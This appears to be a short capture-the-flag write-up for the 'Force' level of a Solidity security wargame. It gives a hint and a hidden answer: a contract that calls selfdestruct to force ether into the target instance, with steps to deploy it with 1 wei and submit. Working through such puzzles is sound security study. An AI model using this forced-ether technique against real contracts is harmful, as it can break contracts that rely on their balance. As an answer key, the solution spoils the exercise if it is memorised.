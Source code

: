 # Force

**HINT:** Your going to want to go to remix IDE and create a contract that forces the contract to have a balance.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.4.18;

contract Kill {
    
    function Kill() public payable {}
    
    function kill() public {
        selfdestruct(Instance_Address);
    }
}
```

Simply deploy the contract with 1 wei and then hit the kill button 
<br></br>
Then click submit
</p>
</details>
